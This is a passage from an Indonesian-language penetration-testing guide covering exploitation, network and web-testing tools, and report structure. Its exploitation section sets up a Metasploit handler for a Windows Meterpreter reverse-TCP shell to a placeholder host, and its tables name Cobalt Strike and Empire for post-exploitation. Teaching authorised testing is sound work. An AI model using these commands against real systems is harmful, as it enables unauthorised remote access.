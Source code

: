 ### 4.3 Eksploitasi
```bash
# Contoh penggunaan Metasploit Framework
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST your_ip
set LPORT 4444
exploit
```

## 5. Tools Penting

### 5.1 Pemetaan Jaringan
| Tool | Fungsi | Contoh Penggunaan |
|------|--------|-------------------|
| Nmap | Pemindaian jaringan | `nmap -sV target` |
| Wireshark | Analisis paket | Filter: `http.request` |
| Netdiscover | Discovery jaringan | `netdiscover -r 192.168.1.0/24` |

### 5.2 Pengujian Aplikasi Web
| Tool | Kategori | Keterangan |
|------|----------|-------------|
| Burp Suite | Proxy | Intercept & analisis traffic |
| OWASP ZAP | Scanner | Otomatis temukan kerentanan |
| SQLmap | Eksploitasi | Deteksi & eksploitasi SQLi |

### 5.3 Eksploitasi
| Tool | Platform | Keterangan |
|------|----------|-------------|
| Metasploit | Multi-platform | Framework eksploitasi |
| Cobalt Strike | Windows | Red team operations |
| Empire | Windows | Post-exploitation |

## 6. Pelaporan dan Analisis

### 6.1 Komponen Laporan
1. Ringkasan Eksekutif
2. Metodologi
3. Temuan Utama
4. Analisis Risiko
5. Rekomendasi
6. Lampiran Teknis
